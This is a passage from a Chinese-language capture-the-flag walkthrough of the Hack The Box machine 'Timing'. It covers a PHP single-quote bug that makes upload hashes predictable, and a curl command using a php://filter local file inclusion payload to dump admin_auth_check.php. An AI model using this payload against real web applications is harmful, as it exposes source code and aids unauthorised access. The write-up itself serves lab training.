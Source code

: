 请注意，有一个名为$file_hash 的变量是用 uniqid()设置的值创建的。这篇文章解释了这个函数是做什么的，但本质上它就像 time()，但以微秒为单位，所以是一个更大的值。重要的一点是:

```
md5('$file_hash' . time())
```

在 PHP 中，单引号和双引号对字符串的作用不同。见[这篇](https://www.geeksforgeeks.org/what-is-the-difference-between-single-quoted-and-double-quoted-strings-in-php/)文章，但是基本上他$file_hash 变量的值是从来不用的。

我们还看到这个文件中包含另一个名为 admin_auth_check.php 的文件，让我们来看看:

```
┌──(root💀kali)-[~]
└─# curl 'http://timing.htb/image.php?img=php://filter/convert.base64-encode/resource=admin_auth_check.php' | base64 -d

<?php
include_once "auth_check.php";

if (!isset($_SESSION['role']) || $_SESSION['role'] != 1) {
    echo "No permission to access this panel!";
    header('Location: ./index.php');
    die();
}
?>
```

我们可以看到该文件正在检查会话角色的值。如果它不等于 1，那么你没有访问面板的权限。我们还不知道那是什么意思！

# WebApp 管理员访问

回到我们的 web 浏览器，我们已经有一个认证为 aaron 的会话。如果您点击顶部的“编辑个人资料”链接，您会看到:

![](img/c002952fca0cba7513a0a01912e785d1.png)

